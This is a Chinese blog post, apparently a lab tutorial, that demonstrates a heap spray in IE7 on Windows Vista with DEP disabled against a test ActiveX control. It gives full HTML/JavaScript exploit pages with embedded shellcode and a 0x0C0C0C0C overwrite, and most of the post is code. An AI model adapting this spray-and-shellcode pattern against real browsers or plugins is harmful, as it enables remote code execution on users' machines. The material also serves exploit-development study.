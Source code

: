 ```yaml
---
layout:		post
title:		利用Heap Spray技术定位内存地址
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows Vista Ultimate sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>Flash Player ActiveX: 9.0.262  
>注意: 关闭系统DEP  
<!-- more -->


新建test.html, 贴入以下代码

```
<html>  
<body>  
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>  
<script>  
var nops = unescape("%u9090%u9090");
while (nops.length < 0x100000/2)
	nops += nops;
nops=nops.substring(0,0x100000/2-32/2-4/2-2/2-2);
nops=unescape("%u8281%u8182")+nops;
var memory = new Array();
for (var i=0;i<200;i++)
	memory[i] += nops;
test.test("\u9090\u9090");
</script>  
</body>  
</html>
```

OD附加上去, 在内存检索0x81828281, 可以看到申请的内存块

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x01.png)

填充shellcode

```
<html>  
<body>  
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>  
<script>  
var nops = unescape("%u9090%u9090");
var shellcode = "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
while (nops.length < 0x100000)
	nops += nops;
nops = nops.substring(0,0x100000/2-32/2-4/2-2/2-shellcode.length);
nops = nops + shellcode;
var memory = new Array();
for (var i=0;i<200;i++)
	memory[i] += nops;
var s = "\u9090";
while(s.length < 54)
	s += "\u9090";
s += "\u0C0C\u0C0C";
test.test(s);
</script>  
</body>  
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-by-heap-spray/0x02.png)